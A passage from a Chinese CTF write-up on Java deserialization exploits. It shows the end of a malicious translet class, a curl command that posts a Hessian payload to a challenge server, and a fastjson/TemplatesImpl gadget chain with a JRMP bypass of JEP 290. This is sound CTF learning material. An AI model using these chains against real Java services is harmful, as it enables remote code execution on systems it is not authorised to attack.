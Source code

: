 ```java
        os.write(response.getBytes());
        os.close();
    }
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

}
```
最后就用curl传进去就可以了
```bash
curl --data-binary @hessian http://9c0da41a-6343-40a3-88f6-a36fcced4d1a.node4.buuoj.cn:81/?token=HFCTF201Q
```
![](https://img-blog.csdnimg.cn/ff13ede96a804f9f872a4292dbe2de97.png)


参考：
[关于Hessian2二次反序列化中我学到了几点](https://xz.aliyun.com/t/11061)
[Hessian 反序列化知一二](https://su18.org/post/hessian/)
[Hessian 反序列化及相关利用链](https://paper.seebug.org/1131/)
[Java安全学习——Hessian反序列化漏洞](https://goodapple.top/archives/1193)
[2022虎符CTF-Java部分](https://y4tacker.github.io/2022/03/21/year/2022/3/2022%E8%99%8E%E7%AC%A6CTF-Java%E9%83%A8%E5%88%86/)
[虎符 2022 ezchain](https://ha1c9on.top/?p=1973)


### [2022网鼎杯 玄武组]ezjava
拿到源码首先看一下存在的依赖
![](https://img-blog.csdnimg.cn/0c1bf2c2a1e9406897d0be09f318116a.png)

发现存在fastjson1.2.48，众所周知 JSONObject 的toString可以调用getter，那么链就很简单了
```
javax.management.BadAttributeValueExpException#readObject
com.alibaba.fastjson.JSON#toJSONString
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getOutputProperties
```

回过头来看到代码
![](https://img-blog.csdnimg.cn/b3efcea923ad48b1bdbea88d7c921c86.png)

很明显的反序列化，跟进到 EInputStream
![](https://img-blog.csdnimg.cn/bc6f078f80c8491dbbda5bf04e3b4aa2.png)

发现重写了resolveClass，只能使用JDK自带的类，导致了⾃定义类无法被加载，那么就只能使用原生反序列化了，但是这里jdk版本并不是jdk7u21和jdk8u20，所以要找一个新的方法

这里使用的是JRMP反序列化，在 jdk<8u241都可以攻击，我本地是8u231，需要绕过jep290的8u231修复
即：[An Trinhs RMI Registry Bypass](https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/)

